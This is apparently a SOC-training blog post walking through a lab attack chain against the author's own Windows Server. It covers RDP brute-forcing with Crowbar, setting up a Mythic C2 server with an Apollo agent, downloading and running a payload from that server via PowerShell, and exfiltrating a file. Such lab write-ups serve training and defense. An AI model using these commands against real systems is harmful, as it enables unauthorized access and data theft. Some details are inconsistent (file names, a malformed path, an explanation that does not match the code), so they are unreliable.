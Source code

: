 +++ 
draft = false
date = 2025-09-13T18:15:20+01:00
title = "Day 21: SOC Analyst Challenge "
description = "SOC Analyst Challenge, Day 21 "
slug = "SOC Analyst Challenge, Day 21"
authors = "Seclice"
tags = ["SOC", "cybersecurity", "SOC Analyst", "ELK", "challenge"]
categories = ["SOC",""]
series = []
+++


## Day 21: Mythic Agent Setup Tutorial
Ressources :[MyDFIR Channel](https://www.youtube.com/@MyDFIR/)
 

### **Attack Chain: From Initial Access to Agent Execution**

#### **Phase 1: Prepare the Target (On Windows Server 2022)**
This creates a "flag" for you to exfiltrate later.
1.  Open **Command Prompt** as administrator.
2.  Create the password file:
    ```cmd
    echo secret! > C:\Users\Public\Documents\secret.txt
    ```

#### **Phase 2: Prepare the Attack (On Parrot OS or KAli)**
1.  **Create the Wordlist:**
    ```bash
    # Create a wordlist file containing the known password
    echo "ThisIsTheAdminPassword!" > wordlist.txt

    # You can add more passwords for a realistic brute-force
    echo "Password123!" >> wordlist.txt
    echo "admin" >> wordlist.txt
    echo "Administrator" >> wordlist.txt
    ```

2.  **Brute Force RDP with Crowbar:**
    *   **Fix:** The `-C` flag should be `-C` (capital C) for the wordlist file, and the `-s` Target IP address/range (in CIDR notation)
. Use the IP alone.
    ```bash
    crowbar -b rdp -s ip@Win-server/32 -u administrator -C wordlist.txt
    ```
    *   *If successful, Crowbar will find the correct password.*

3.  **Test RDP Access with xfreerdp:**
    ```bash
    xfreerdp /u:administrator /p:'ThisIsTheAdminPassword!' /v:ip@Win-server
    ```

#### **Phase 3: Set Up the C2 Infrastructure (On Mythic Server)**
1.  **Install the Apollo Agent:** [Agents](https://github.com/mythicagents)

    ```bash
    # Navigate to your Mythic directory first
    cd ~/Mythic
    ./mythic-cli install github https://github.com/MythicAgents/Apollo.git
    ```
    *Wait for the installation to complete. Check status with `./mythic-cli status`.*

2.  **Install the HTTP C2 Profile:** [C2Profiles](https://github.com/mythicC2Profiles)
    ```bash
    ./mythic-cli install github https://github.com/MythicC2Profiles/http
    ```
    *This profile allows agents to communicate over HTTP.*

3.  **Open Firewall Ports:**
    ```bash
    # Allow HTTP (port 80) and your custom download port (9999)
    sudo ufw allow 80
    sudo ufw allow 9999
    sudo ufw reload
    ```

#### **Phase 4: Staging & Execution (on your computer)**
1.  **In the Mythic Web UI (`https://your-mythic-ip:7443`):**
    *   **Create a Payload:** Go to **Payloads > Create Payload**.
        *   **Payload Type:** `apollo`
        *   **C2 Profile:** `http`
        *   **Set the listening port to `80`** in the profile parameters.
        *   **Platform:** `Windows`
        *   **Create** and then **Download** the payload (e.g., `payload.exe`).

2.  **Host the Payload on the Mythic Server:**
    ```bash
    # download the payload, you can find the link on the payload page by clicking on the icon download ad copy link
    wget https://your-mythic-ip:7443/direct/download/781dff88-3f72-4776-b176-6c9de1163ea5 
    ```
    **move the payload to Home (on Mythic server)** so we can download it later.
    ```bash
    # Start a simple HTTP server on port 9999
    python3 -m http.server 9999
    ```

3.  **On Parrot OS (Inside your RDP Session):**
    *   After using `xfreerdp` to log into the Windows Server, open **PowerShell**.
    *   **Download and Execute the Payload:**
        ```powershell
        # Download the payload from your Mythic server's Python HTTP server
        Invoke-WebRequest -Uri "http://your-mythic-ip:9999/payload.exe" -OutFile "C:Users\Public\Downloads\payload.exe"

        # Execute the payload
        cd C:Users\Public\Downloads\
        .\payload.exe
        ```
        - Explanation:
			- & is the PowerShell call operator, used to execute commands.
			- "$env:USERPROFILE\Downloads\payload.exe" builds the full path as a string.
			- $env:USERPROFILE is an environment variable that expands to C:\Users\<your_username>.
			- The entire path is wrapped in quotes in case there are spaces in the username.

    *   **Important:** Close the RDP session but leave the payload running.

#### **Phase 5: Post-Exploitation (On Mythic Web UI)**
1.  **Check for Callbacks:** Go to **Operators > Active Connections**. You should see a new callback from the Windows Server.
2.  **Interact with the Agent:** Click **Select** next to the callback to open a command session.
3.  **Exfiltrate the Password File:**
    ```bash
    # Use the Apollo 'download' command
    download C:\Users\Public\Documents\secret.txt
    ```
4.  **Search for Files (Optional):** You can also use the `ls` and `cd` commands to browse the file system and find the `password.txt` file.

{{<mermaid>}}
flowchart TD
A["Phase 1: Prep Target<br>Create password.txt on Windows"]
B["Phase 2: Brute Force<br>Parrot OS: Crowbar & xfreerdp"]
C["Phase 3: Setup C2<br>Mythic: Install Apollo & HTTP Profile"]
D["Phase 4: Staging<br>Mythic: Host Payload<br>Parrot: Download via RDP"]
E["Phase 5: Exfiltration<br>Mythic UI: Interact & Download file"]

A --> B
B -- "RDP Access" --> D
C -- "Payload" --> D
D -- "Agent Execution" --> E
{{</mermaid>}}

This chain effectively demonstrates the core stages of a cyber attack: reconnaissance/access, deployment, command & control, and actions on objectives. 

